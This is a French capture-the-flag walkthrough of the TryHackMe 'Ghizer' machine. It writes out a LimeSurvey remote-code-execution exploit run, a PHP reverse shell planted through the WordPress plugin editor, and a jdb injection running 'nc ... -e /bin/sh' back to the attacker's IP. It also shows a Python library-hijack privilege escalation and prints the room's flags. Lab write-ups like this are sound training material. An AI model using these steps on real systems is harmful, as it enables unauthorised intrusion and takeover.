

# Ghizer #

## Task 1 Flag ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.183.87 ghizer.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A ghizer.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 13:10 CEST
Nmap scan report for ghizer.thm (10.10.183.87)
Host is up (0.036s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp    open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey    
443/tcp   open  ssl/ssl    Apache httpd (SSL-only mode)
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
18002/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:36337
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
36337/tcp open  java-rmi   Java RMI
45029/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.91%I=7%D=9/7%Time=613748C5%P=x86_64-pc-linux-gnu%r(NULL,
SF:33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203
SF:\.0\.3\)\n")%r(GenericLines,58,"220\x20Welcome\x20to\x20Anonymous\x20FT
SF:P\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x2
SF:0USER\x20and\x20PASS\.\n")%r(Help,58,"220\x20Welcome\x20to\x20Anonymous
SF:\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20w
SF:ith\x20USER\x20and\x20PASS\.\n")%r(GetRequest,58,"220\x20Welcome\x20to\
SF:x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x
SF:20login\x20with\x20USER\x20and\x20PASS\.\n")%r(HTTPOptions,58,"220\x20W
SF:elcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n53
SF:0\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(RTSPRequest
SF:,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x20
SF:3\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%
SF:r(RPCCheck,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(
SF:vsFTPd\x203\.0\.3\)\n")%r(DNSVersionBindReqTCP,58,"220\x20Welcome\x20to
SF:\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\
SF:x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(DNSStatusRequestTCP,58,
SF:"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0
SF:\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(SS
SF:LSessionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\
SF:(vsFTPd\x203\.0\.3\)\n")%r(TerminalServerCookie,33,"220\x20Welcome\x20t
SF:o\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(TLSSessi
SF:onReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTP
SF:d\x203\.0\.3\)\n")%r(Kerberos,33,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(SMBProgNeg,33,"220\x20Welc
SF:ome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(
SF:X11Probe,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vs
SF:FTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PAS
SF:S\.\n")%r(FourOhFourRequest,58,"220\x20Welcome\x20to\x20Anonymous\x20FT
SF:P\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x2
SF:0USER\x20and\x20PASS\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/7%OT=21%CT=1%CU=30189%PV=Y%DS=2%DC=T%G=Y%TM=61374970
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   36.17 ms 10.9.0.1
2   36.33 ms ghizer.thm (10.10.183.87)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.66 seconds

```

On voit plusieurs services :
Le service FTP sur le port 21.    
Le service HTTP sur le port 80.   
Le service HTTPS sur le port 443.   
Sur d'autre port il y a un service java.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp ghizer.thm
Connected to ghizer.thm.
220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
Name (ghizer.thm:tim): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

Pour le services FTP il faut des identifiants.   


Sur la page principale on voit que l'on est sur LimeSurvey.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://ghizer.thm  -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/admin                (Status: 301) [Size: 308] [--> http://ghizer.thm/admin/]
/application          (Status: 301) [Size: 314] [--> http://ghizer.thm/application/]
/assets               (Status: 301) [Size: 309] [--> http://ghizer.thm/assets/]     
/docs                 (Status: 301) [Size: 307] [--> http://ghizer.thm/docs/]       
/framework            (Status: 301) [Size: 312] [--> http://ghizer.thm/framework/]  
/index.php            (Status: 200) [Size: 40931]                                   
/installer            (Status: 301) [Size: 312] [--> http://ghizer.thm/installer/]  
/locale               (Status: 301) [Size: 309] [--> http://ghizer.thm/locale/]     
/plugins              (Status: 301) [Size: 310] [--> http://ghizer.thm/plugins/]    
/server-status        (Status: 403) [Size: 275]                                     
/tests                (Status: 301) [Size: 308] [--> http://ghizer.thm/tests/]      
/themes               (Status: 301) [Size: 309] [--> http://ghizer.thm/themes/]     
/tmp                  (Status: 301) [Size: 306] [--> http://ghizer.thm/tmp/]        
/upload               (Status: 301) [Size: 309] [--> http://ghizer.thm/upload/]     
```

On voit qu'il y a un répertoire admin.  


Sur la page on a l'interface de connexion, mais on a pas le mot de passe et le nom.    
Recherchons les identifiants par défaut de limesurvey.  

  

On se connecte sur LimeSurvey avec les identifiants par défaut.   

  

Sur l'interface on voit que la version de LimeSurvey est : 3.15.9  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit limesurvey 3
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
LimeSurvey 1.85+ - 'admin.php' Cross-Site Scripting                                                                                                                                                         | php/webapps/35787.txt
LimeSurvey 1.92+ build120620 - Multiple Vulnerabilities                                                                                                                                                     | php/webapps/19330.txt
LimeSurvey 2.00+ (build 131107) - Multiple Vulnerabilities                                                                                                                                                  | php/webapps/29789.txt
LimeSurvey 3.17.13 - Cross-Site Scripting                                                                                                                                                                   | php/webapps/47386.txt
LimeSurvey 4.1.11 - 'Permission Roles' Persistent Cross-Site Scripting                                                                                                                                      | php/webapps/48523.txt
LimeSurvey 4.3.10 - 'Survey Menu' Persistent Cross-Site Scripting                                                                                                                                           | php/webapps/48762.txt
LimeSurvey < 3.16 - Remote Code Execution                                                                                                                                                                   | php/webapps/46634.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

On voit que pour les versions inferieurs 3.16, il y a un exploit d'exécution de code à distance.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python2 /usr/share/exploitdb/exploits/php/webapps/46634.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 976181
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/976181/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls -al /home/veronica
total 152
drwxr-xr-x 22 veronica veronica 4096 Sep  7 04:07 .
drwxr-xr-x  3 root     root     4096 Jul 23  2020 ..
-rw-------  1 veronica veronica 1908 Sep  7 04:07 .ICEauthority
-rw-------  1 veronica veronica   51 Sep  7 04:07 .Xauthority
-rw-------  1 root     root     1534 Jul 23  2020 .bash_history
-rw-r--r--  1 veronica veronica  220 Jul 23  2020 .bash_logout
-rw-r--r--  1 veronica veronica 3771 Jul 23  2020 .bashrc
drwx------ 17 veronica veronica 4096 Jul 23  2020 .cache
drwx------  3 veronica veronica 4096 Jul 23  2020 .compiz
drwx------ 16 veronica veronica 4096 Jul 23  2020 .config
drwx------  3 root     root     4096 Jul 23  2020 .dbus
-rw-r--r--  1 veronica veronica   25 Jul 23  2020 .dmrc
drwx------  2 veronica veronica 4096 Jul 23  2020 .gconf
drwxr-x---  3 veronica veronica 4096 Jul 23  2020 .ghidra
drwx------  3 veronica veronica 4096 Sep  7 04:07 .gnupg
drwxr-x---  3 veronica veronica 4096 Jul 23  2020 .java
drwx------  3 veronica veronica 4096 Jul 23  2020 .local
-rw-------  1 veronica veronica  199 Jul 23  2020 .mysql_history
drwxrwxr-x  2 veronica veronica 4096 Jul 23  2020 .nano
-rw-r--r--  1 veronica veronica  655 Jul 23  2020 .profile
-rw-r--r--  1 veronica veronica    0 Jul 23  2020 .sudo_as_admin_successful
-rw-r--r--  1 root     root      183 Jul 23  2020 .wget-hsts
-rw-------  1 veronica veronica   82 Sep  7 04:07 .xsession-errors
-rw-------  1 veronica veronica 1375 Jul 23  2020 .xsession-errors.old
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Desktop
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Documents
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Downloads
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Music
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Pictures
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Public
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Templates
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Videos
drwxr-xr-x  2 root     root     4096 Jul 23  2020 __pycache__
-rw-r--r--  1 root     root       86 Jul 23  2020 base.py
-rw-r--r--  1 veronica veronica 8980 Jul 23  2020 examples.desktop
drwxrwxrwx  9 veronica veronica 4096 Feb 28  2019 ghidra_9.0
-rw-------  1 veronica veronica   70 Jul 23  2020 user.txt
```

**example: user:password**

Dans le répertoire veronica il y bien user.txt mais on a pas les droits pour le lire.    

```bash
$ find / -name 'config.php' 2>/dev/null
/var/www/html/wordpress/wp-content/plugins/akismet/views/config.php
/var/www/html/limesurvey/framework/messages/config.php
/var/www/html/limesurvey/application/config/config.php
/var/www/html/limesurvey/third_party/kcfinder/conf/config.php

$ cat /var/www/html/limesurvey/application/config/config.php | grep username -A 1  
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
--
			'username' => 'Anny',
			'password' => 'Anny',
```

Dans le fichier on trouve des identifiants :   
Nom : Anny   
Mot de passe : P4$W0RD!!#S3CUr3!    

Réponse : Anny:P4$W0RD!!#S3CUr3!    

   

**What is the login path for the wordpress installation?**

On remarque sur la page https que le site est sur wordpress.    
On clique sur : Log in.   

  

On trouve le chemin de l'installation de wordpress qui est : /?devtools   

On se connecte avec les identifiants trouvés.   

  

On click sur Remind me later.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-09-07 15:08:58 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On prépare le reverse shell.    

 

On va dans plugins-\>Plugin Editor-\> akismet.php  
On copie le contenu du shell dans akismet.php.  

Puis en bas de la page on fait update file.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.   

 

On lance le reverse shell.   

```bash
$ cd /home/veronica
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
__pycache__
base.py
examples.desktop
ghidra_9.0
user.txt

$ cat user.txt
cat: user.txt: Permission denied

```
On a un shell mais toujours pas le droit de lire le fichier user.txt.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
```

On écoute un autre port on va refaire un reverse shell avec les droits de veronica.   


```bash
$ cd ghidra_9.0
$ netstat -ln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:18001         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp6       0      0 :::45029                :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::36337                :::*                    LISTEN     
tcp6       0      0 :::18002                :::*                    LISTEN     
tcp6       0      0 ::1:631                 :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
udp        0      0 0.0.0.0:32796           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 0.0.0.0:631             0.0.0.0:*                          
udp6       0      0 :::59420                :::*                               
udp6       0      0 :::5353                 :::*       
```

On voit plusieurs ports sur le localhost qui écoute, qui sont : 3306, 18001 et 631.   

D'après une [documentation](https://github.com/NationalSecurityAgency/ghidra/issues/6) on peut exploiter jdb pour obtpenir une élévation de privilège.  

```bash
$ jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> classpath
base directory: /home/veronica
classpath: [/home/veronica/ghidra_9.0/support/../Ghidra/Framework/Utility/lib/Utility.jar]
> classes
...
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0
---------
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1773
listening on [any] 1773 ...
---------
Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 10.9.228.66 1337 -e /bin/sh")
```

On exploite la faille  pour obtenir un shell.   

**Compromise the machine and locate user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.61.240] 38280
id
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
/home/veronica
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
```

On a les droits de veronica.  
On lit le fichier user.txt et on a notre flag.  

La réponse est : THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}    

**Escalate privileges and obtain root.txt**

```bash
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py

```

On voit que base.py peut être exécuté avec les droit root et sans mot de passe.   

```bash
cat base.py
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)

python3 -c "import pty;pty.spawn('/bin/bash')"

veronica@ubuntu:~$ ls -al base.py
ls -al base.py
-rw-r--r-- 1 root root 86 Jul 23  2020 base.py

```

On voit que l'on peut pas modifier le fichier base.py.  

On vait faire une usurpation de librairie.   

```bash
veronica@ubuntu:~$ echo "import os" > base64.py  
echo "import os" > base64.py 
veronica@ubuntu:~$ echo "def b64encode(binary):" >> base64.py
echo "def b64encode(binary):" >> base64.py
veronica@ubuntu:~$ echo "    os.system(\"/bin/bash\");" >> base64.py
echo "    os.system(\"/bin/bash\");" >> base64.py

veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py 
sudo /usr/bin/python3.5 /home/veronica/base.py 
root@ubuntu:~# 
cat /root/root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}   
```

On écrit un fichier base64.py  qui exécuter un shell à la place de la vrai librairie.   
On lance le base64.py avec sudo.   
On obtient un shell root.  

La réponse est : THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}     